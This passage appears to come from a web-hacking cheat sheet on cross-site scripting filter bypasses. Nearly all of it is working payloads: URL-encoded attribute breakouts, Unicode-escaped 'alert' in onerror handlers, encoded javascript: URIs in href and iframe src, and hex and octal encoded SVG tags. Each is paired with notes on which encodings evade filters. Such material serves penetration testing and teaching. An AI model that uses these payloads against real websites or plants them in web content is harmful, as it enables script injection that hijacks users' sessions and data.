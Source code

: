 **Note that URL encode will also work:**

```python
<a href="https://example.com/lol%22onmouseover=%22prompt(1);%20img.png">Click</a>
```

#### Bypass inside event using Unicode encode

```javascript
//For some reason you can use unicode to encode "alert" but not "(1)"
<img src onerror=\u0061\u006C\u0065\u0072\u0074(1) />
<img src onerror=\u{61}\u{6C}\u{65}\u{72}\u{74}(1) />
```

#### Bypass inside `javascript:`using HTML and URL encoding

Your input could also by **reflected** in HTML tags that accept the protocol **`javascript:`** like `<a href="javascript:fetch('/<your_input>'">` in these cases you can still **alter** the **JS flow** to execute arbitrary code.  
_**In this case the HTML encoding and the Unicode encoding trick from the previous section is also valid as you are inside an attribute.**_  
Moreover, there is another **nice trick** for these cases**: Even if your input inside `javascript:...` is being URL encoded, it will be URL decoded before it's executed.** So, if you need to **escape** from the **string** using a **single quote** and you see that **it's being URL encoded**, remember that **it doesn't matter,** it will be **interpreted** as a **single quote** during the **execution** time.  
_Note the `javascript:` protocol can be **used in any tag that accepts the attribute `href`** and in **most** of the tags that accepts the **attribute `src`** \(but not `<img`\)_

```javascript
&apos;-alert(1)-&apos;
%27-alert(1)-%27
<iframe src=javascript:%61%6c%65%72%74%28%31%29></iframe>
```

Note that if you try to **use both** `URLencode + HTMLencode` in any order to encode the **payload** it **won't** **work**, but you can **mix them inside the payload**.

#### Using Hex and Octal encode with `javascript:`

You can use **Hex** and **Octal encode** inside the `src` attribute of `iframe` \(at least\) to declare **HTML tags to execute JS**:

```javascript
//Encoded: <svg onload=alert(1)>
// This WORKS
<iframe src=javascript:'\x3c\x73\x76\x67\x20\x6f\x6e\x6c\x6f\x61\x64\x3d\x61\x6c\x65\x72\x74\x28\x31\x29\x3e' />
<iframe src=javascript:'\74\163\166\147\40\157\156\154\157\141\144\75\141\154\145\162\164\50\61\51\76' />

//Encoded: alert(1)
// This doesn't work
<svg onload=javascript:'\x61\x6c\x65\x72\x74\x28\x31\x29' />
<svg onload=javascript:'\141\154\145\162\164\50\61\51' />
```
